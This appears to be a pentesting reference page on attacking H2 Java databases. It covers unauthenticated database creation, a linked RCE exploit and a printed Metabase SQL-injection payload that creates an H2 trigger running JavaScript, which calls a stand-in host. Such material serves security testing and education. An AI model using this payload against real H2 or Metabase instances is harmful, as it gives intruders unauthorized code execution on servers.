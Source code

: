 # H2 - Java SQL database


Official page: [https://www.h2database.com/html/main.html](https://www.h2database.com/html/main.html)

## Access

You can indicate a **non-existent name a of database** in order to **create a new database without valid credentials** (**unauthenticated**):

![](<../../.gitbook/assets/image (131).png>)

Or if you know that for example a **mysql is running** and you know the **database name** and the **credentials** for that database, you can just access it:

![](<../../.gitbook/assets/image (201).png>)

_**Trick from box Hawk of HTB.**_

## **RCE**

Having access to communicate with the H2 database check this exploit to get RCE on it: [https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed)

## H2 SQL Injection to RCE

In [**this post**](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) a payload is explained to get **RCE via a H2 database** abusing a **SQL Injection**.

```json
[...]
"details":
    {
        "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER IAMPWNED BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\nnew java.net.URL('https://example.com/pwn134').openConnection().getContentLength()\n$$--=x\\;",
        "advanced-options": false,
        "ssl": true
    },
[...]
```

